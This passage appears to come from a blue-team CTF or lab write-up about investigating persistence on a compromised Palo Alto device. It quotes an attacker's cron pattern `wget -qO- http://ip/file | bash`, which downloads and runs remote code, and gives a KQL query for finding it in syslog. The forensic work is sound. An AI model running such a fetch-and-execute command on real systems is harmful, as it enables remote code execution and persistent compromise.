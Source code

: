 ![Q2 Answer](/img/cd/blueyard/paloaltorce/q2_answer.png)

{% include item.html type="answer" id="2" description=page.question_2 answer="2024-04-21 18:17:07" %}

## Question 3
{% include item.html type="question" id="3" question=page.question_3 %}

The articles describes the persistence mechanism to be Cron based, using variations of `wget -qO- http://ip/file | bash`. Let's search the syslog events on the device for cron activity with `wget` or `bash` references.
{% highlight kql %}
log.file.path:"/mnt/palo_alto3/var/log/syslog-system.log" and message:"*CMD*" and program:crond and (message:"*wget*" or  message:"*bash*")  
{% endhighlight %}

at 06:39:01 a command is executed, and once every minute following that.
